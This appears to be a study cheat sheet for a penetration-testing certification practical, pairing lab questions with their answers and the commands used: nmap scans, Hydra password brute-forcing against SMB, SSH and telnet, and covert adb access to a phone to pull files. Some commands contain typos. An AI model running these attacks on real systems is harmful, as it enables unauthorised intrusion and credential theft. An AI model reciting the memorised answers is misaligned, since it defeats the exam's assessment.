 
Step-1 in exam when login sudo arp-scan -local or netdiscover -i 10.10.1.0 or nmap -sn ip/24 https://github.com/dhabaleshwar/CEHPractical/tree/main https://github.com/cmuppin/CEH 1.Perform extensive scan of the target network and identify the FQDN of the Domain Controller. Answer: AdminTeam.ECCCEH.com
1. nmap -p389 -sV 10.10.1.13/24
2. Go to 10.10.1.22 server and login and go to this pc then right click and go down click on rename this pc advanced.
2.While investigating an attack, you found that a Windows web development environment was exploited to gain access to the system. Perform extensive scanning and service enumeration of the target networks and identify the IP address of the server running WampServer.
Answer: 172.20.0.16
1. namp -sV -A -p 80 10.10.1.13/24
3.Identify a machine with SMB service enabled in the 192.168.0.0/24 subnet. Crack the SMB credentials for user Henry and obtain Sniff.txt file containing an encoded secret. Decrypt the encoded secret and enter the decrypted text as the answer. Note: Use Henry's password to decode the text.
Answer: nvkwj2387
1. Scan the entire subnet for open smb ports. You can use the wordlist available on the desktop on Parrot os. Use Hydra to crack it. The password for the encoded file is the same. If the file contains a hash, try to decode it.
2. sudo nmap -T4 -Ss -p 139,445 - -script vuln 192.168.0.0/24
3. hydra-l henry -P /home/passlist.txt 192.168.0.1 smb
4. smbclient //192.168.0.1/share
5. smbclient -L 192.168.0.1
6. type password and ls
7. get sniff.txt ~/Desktop/falg2.txt or more sniff.txt
8. cat falg2.txt
9. now encrypt the text using the same henry login password in bctextencoder.exe manual open
    
4.An insider attack has been identified in one of the employees’ mobile devices in 192.168.0.0/24 subnet. You are assigned to covertly access the user’s device and obtain malicious elf files stored in a folder "Scan". Perform deep scan on the elf files and obtain the last 4 digits of SHA 384 hash of the file with highest entropy value.
Answer: 7aea
1. sudo nmap -p 5555 192.168.0.0/24
2. adb connect 192.168.0.14:5555
3. adb shell
4. ls and cd sdcard and ls and pwd
5. adb pull /sdcard/scan/ or adb pull /sdcard/scan attacker/home/
6. ls and cd scan and ls
7. ent -h or apt install ent
8. ent evil.elf
9. ent evil2.elf
10. ent evil3.elf
11. sha384sum evil.elf
12. then you get one hash value type last 4 characters.
5.Perform a vulnerability scan for the host with IP address 172.20.0.16. What is the severity score of a vulnerability that indicates the End of Life of a web development language platform?
Answer: 10
1. nmap -Pn - -script vuln 172.20.0.16
2. now copy the CVE number which is vulnerable paste in goggle and see the value.
3. Most of the time “10”.
example CVE-2006-3392 https://www.cvedetails.com/cve/CVE-2006-3392/
6.Exploit a remote login and command-line execution application on a Linux target in the 192.168.0.0/24 subnet to
access a sensitive file, NetworkPass.txt. Enter the content in the file as answer.
Answer: F56C8p@
1. Use Hydra to break the password Telnet, login and access the file, and enter the flag.
2. Exploit a Remote Command Execution Vulnerability to Compromise a Target Web Server Task-7
3. Nmap -p 22,23,80,3389 192.168.0.0/24
4. sudo nmap -sS -sV -p- -O ipadd
5. telnet 192.168.0.19 80 and GET / HTTP/1.0
6. hydra -L user.txt -P pass.txt 192.168.0.1 ssh
7. hydra -L /root/Desktop/user.txt -P /root/Desktop/pass.txt 192.168.1.106 telnet